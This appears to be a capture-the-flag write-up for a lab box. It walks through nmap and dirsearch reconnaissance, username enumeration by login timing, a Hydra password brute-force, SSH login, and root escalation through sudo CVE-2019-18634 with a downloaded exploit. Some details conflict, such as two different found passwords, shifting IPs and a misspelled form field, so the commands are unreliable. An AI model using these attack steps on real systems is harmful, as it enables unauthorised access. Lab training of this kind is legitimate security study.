

## Task 1: Reconnaissance

**Nmap scan command:**

```bash
nmap -Pn -sC -sV -A -p- --min-rate 1000 -oN nmap_result.txt -T4 10.10.138.210
Warning: 10.10.138.210 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.138.210
Host is up (0.51s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=12/8%OT=22%CT=1%CU=32318%PV=Y%DS=4%DC=I%G=Y%TM=6754
OS:EAF4%P=x86_64-pc-linux-gnu)SEQ()SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%
OS:TS=A)OPS(O1=M509ST11NW7%O2=M509ST11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5
OS:=M509ST11NW7%O6=M509ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=
OS:F4B3)ECN(R=N)ECN(R=Y%DF=Y%T=40%W=F507%O=M509NNSNW7%CC=Y%Q=)T1(R=N)T1(R=Y
OS:%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%W
OS:=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=N)U1(R=Y%DF=N%T=40%IPL=164%U
OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=N)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 6167/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec  8 03:40:20 2024 -- 1 IP address (1 host up) scanned in 311.03 seconds
```



**Open Ports:**

- `22` → SSH (OpenSSH 7.6p1 Ubuntu 4ubuntu0.3)
- `80` → HTTP (Go net/http server)
- `8080` → HTTP (Go net/http server)

### *Which ports are open? (in numerical order)*

→ `22,80,8080`


**Backend language:** Go

---

## Task 2: Investigate

Now, after that we know what’s running, we need to investigate. With web apps, the normal process is to click around. Create an account, use the web app as a user would, and pay close attention to details.


## 1. Create your own user account


## 2. Log in to your account


## 3. Try and log in to an invalid user account


## 4. Try and log in to your account, with an incorrect password


Notice the timing difference. This allows user enumeration.

**A timing attack** is a technique where an attacker measures how long a system takes to respond to different inputs — and uses this information to guess secrets like usernames or passwords.

---

## Task 3: Service Enumeration

Using dirsearch tool in kali linux to discovered Directories/Files: in the domain [http://10.10.124.211/](http://10.10.124.211/) .

**Dirsearch command:**

```bash
dirsearch  -u http://10.10.124.211 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomain-top1million-500.txt -e *
```


**Discovered directories/files**

- `/index.html`
- `/notes`

## **Vulnerability Analysis**

After i created a test account and analyzed the responses for invalid usernames and passwords. Observed a timing delay when a valid username was used, enabling user enumeration. An attacker can:

Try many usernames.

1. Try many usernames.
2.  Measure the response time.
3. If the system takes longer to respond, it likely means the username is valid (because it took time to check the password).
4.  Repeat the process with passwords to find the correct one.

**Tool Used: Burpsuite**


When sending the request to the I***ntruder*** tool to find the valid username. Note that the username wordlists have been provided in the lab.[ [Download](https://github.com/NinjaJc01/hackerNoteExploits)]


**Discovered:**

- Number of valid usernames: `1`
- Valid username(s): `james`


We got the password ***Hit*** that will be our light to move forward with our attack. Using this hint, we can craft or create a custom From this password hint, we can create a wordlist and (more) efficiently brute-force the user’s password.

---

## Task 4: Attack Passwords

The HTTP POST request that we captured earlier tells us enough about the API that we can use ***Hydra*** to attack it.

The API is actually designed to either accept Form data, or JSON data. The frontend sends JSON data as a POST request, so we will use this. Hydra allows attacking HTTP POST requests, with the HTTP-POST module.

Using the ***hashcat-utilis*** to create a custom wordlist from the payload given in the lab.


Using Hydra to brute-force the web application.

```bash
hydra -l james -P wordlists.txt 10.10.124.211 http-post-form "/api/user/login:username=^USER^&passowrd=^PASS^ : Invalid Username Or Password"
```


The found password is `blue7`

### *How many passwords were in your wordlist?*

*→ `180`*

Required to log in to the account using ***james*** account.


### *What was the user’s password?*

*→ `dak4ddb37b`* 

So, log in as the user to SSH with the credentials you have.

```jsx
ssh james@10.10.124.211
```


After logging, use the command ***ls*** to list the contents in James home directory.


### What’s the user flag?

→ `thm{56911bd7ba1371a3221478aa5c094d68}`

**Results:**

- Password list size: `180`
- Found password: `blue7`
- Final password (from hint + bruteforce): `dak4ddb37b`
- The Flag: `thm{56911bd7ba1371a3221478aa5c094d68}`

---

## Task 5: Escalation

Now that we have an SSH session, we can grab the user flag. But that shouldn’t be enough for us, we need root.

A good first step for privilege escalation is seeing if you can run ***sudo.***

Using the command

```
sudo -l
```


Unfortunately, the current user cannot run any commands as root. You may have noticed, however, that when you enter your password, you see asterisks.


Using that setting, ***pwdfeedback*** to search for a CVE in Google.Found in exploit-db.


### *What is the CVE number for the exploit?*

*→* `CVE-2019–18634`

Let’s find and download, and exploit for that CVE I found this one on [[Github](https://github.com/saleemrashid/sudo-cve-2019-18634)] .


After downloading the exploit then we copy it to the vulnerable machine in ***tmp*** directory since it’s ***writable by all users,*** which means any process, including ***unprivileged users,*** can write to it.


Moving to the vulnerable machine to start our attack after the delivery of the exploits has been done.


```jsx
scp exploit.c james@10.10.214.211:/tmp
scp Makefile james@10.10.214.211:/tmp
```


Execute using the command.

```jsx
/exploit
```


Now let’s open the flag.

```jsx
cat /root/root.txt
```


### *What is the root flag?,ll*

→ `thm{af55ada6c2445446eb0606b5a2d3a4d}`

---

## Vulnerability Explanation: Timing Attack

**Definition:**

- Attackers measure response times of login attempts to infer valid usernames & passwords.

**How it works in credential enumeration:**

- Invalid username → fails quickly
- Valid username + wrong password → slower response

**Dangers:**

- Stealthy username/password discovery
- Works even without error messages

**Prevention:**

- Use constant-time responses
- Implement rate limiting or CAPTCHA
- Constant-time password comparisons

---

✅ **Key Takeaways:**

- User enumeration via timing attack
- Hydra for password brute-force
- PrivEsc via `CVE-2019-18634` exploit